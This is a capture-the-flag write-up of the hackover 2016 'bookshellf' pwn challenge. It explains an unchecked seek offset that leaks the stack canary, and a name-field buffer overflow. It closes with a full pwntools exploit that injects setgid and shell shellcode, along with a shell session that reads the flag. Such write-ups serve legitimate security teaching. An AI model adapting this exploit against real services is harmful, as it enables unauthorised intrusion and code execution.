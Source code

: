 ```yaml
---
title: 'hackover 2016: bookshellf (pwn 72)'
date: 2016-10-12 00:00:00 Z
categories:
- writeup
tags:
- cat/pwn
- tool/pwntools
layout: post
author: wolvg, creed
---
```


* **Category:** pwn
* **Points:** 72
* **Description:**


>
>Our business market analysis told us that the cyber kids of today don't read books anymore. Cyber parents are desperate about their cyber kid's education. Therefore we released a new cyber ebook reader which sends cyber waves directly to the kids brains to make them read electronically. Currently we are in negotiations with many copyright owners to provide a larger library. For now you can read the work by H.P. Lovecraft, which is public cyber domain.

>nc challenges.hackover.h4q.it 31337 

## Write-up
When we start the binary we are presented with a banner and menu.

```
 _              _       _        _ _  __
| |__  ___  ___| |__ __| |_  ___| | |/ _|
| '_ \/ _ \/ _ \ / /(_-< ' \/ -_) | |  _|
|_.__/\___/\___/_\_\/__/_||_\___|_|_|_|
                    with 20% more love!
== main menu
0) list books
1) read book
2) exit
> 
```

First we can list the available books (stored on a folder on the remote) and then read them. In order to read a book we have to enter its name, e.g., dagon.txt. The program then reads 511 bytes of the book into a buffer, prints it, and presents the user with the question wheter the user want to continue reading, stop reading or seek to a specific offset.
This offset is neither checked against the size of the book nor is it checked if it is positive. This means we can read 511 bytes from wherever we want. As the buffer is copied via strncpy we can only read from an adress until a 0-byte is encountered.
Additionally, when entering the name of book we want to read, we can overflow the 'book_to_read' buffer.

Let's checksec:

```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : FULL
gdb-peda$ 
```
Here's the plan:

1. leak canary and saved rbp
2. overwrite canary with leaked canary, overwrite ret address with rbp+offset, write shellcode on the stack

After some exploit fiddling we get a shell on the remote and, of course, we are here for the flag.

```
$ ls -al
total 32
drwxr-xr-x 4 root root  4096 Oct  6 19:57 .
drwxr-xr-x 4 root root  4096 Oct  6 19:57 ..
-rwxr-sr-x 1 flag flag 10232 Oct  6 19:57 bookshellf
dr-xr-xr-x 2 root root  4096 Oct  6 19:57 library
-rwxr-xr-x 1 root root    68 Oct  6 19:57 run.sh
dr-xr-xr-x 2 root flag  4096 Oct  6 19:57 secret
$ cd secret
$ ls -al
total 12
dr-xr-xr-x 2 root flag 4096 Oct  6 19:57 .
drwxr-xr-x 4 root root 4096 Oct  6 19:57 ..
-r--r----- 1 root flag   62 Oct  6 19:57 flag.txt
$ cat flag.txt
$ whoami
user
```
Ok, it looks like we are not allowed to read the flag. Back to IDA again.
Apparently there is that:

```
[...]    
seteuid(v1);
v2 = getuid();
setegid(v2);
[...]
```

So we have to change the gid to the flag gid.

```
user:x:1000:1000::/home/user/:/usr/sbin/nologin
flag:x:1001:1001::/home/flag/:/usr/sbin/nologin
```

We added the following line to our exploit

```
shellcode += asm(shellcraft.amd64.linux.setgid(1001), arch="amd64")
```
and executed it against the remote. Now we are allowed the read the flag:

```
hackover16{iN_h1s_hOusE_aT_Rlyeh_d3ad_Cthulhu_waItS_drEamIng}
```

Our final exploit:

```python
from pwn import *
import binascii

context.terminal = ['urxvtGDB.sh']
#context.log_level = 'DEBUG'
context.arch = 'amd64'

#p = process('./bookshellf')
p = remote('challenges.hackover.h4q.it', 31337)
p.recvuntil('>')

#gdb.attach(p,
#         'b *0x400fcf')
p.sendline('1')
p.recvuntil('>')

index = '30729'
p.sendline('dagon.txt')

p.recvuntil('>')
p.sendline('s' + index)
p.recvuntil('!\n\n\n')

received = p.recvline()
addr = '\x00' + received[8:13] + '\x00' * 2
addr = addr[::-1]

addr_int = int(binascii.hexlify(addr), 16) + 0x100
print'addr = 0x' + hex(addr_int)

canary = '\x00'
canary += received[0:7]


p.sendline('n') # stop reading
p.recvuntil('>')
p.sendline('1')
p.recvuntil('>')

offset = cyclic_find(0x646d6178)

payload = 'B' * 8   #rbp
payload += p64(addr_int)
shellcode = ''
shellcode += asm(shellcraft.amd64.linux.setgid(1001), arch="amd64")
shellcode += asm(shellcraft.amd64.linux.sh(), arch="amd64")

p.sendline('asdf' + 'D' * (offset - 4) + canary + payload + '\x90' * 0x200 + shellcode)
p.clean_and_log()
p.interactive()
```
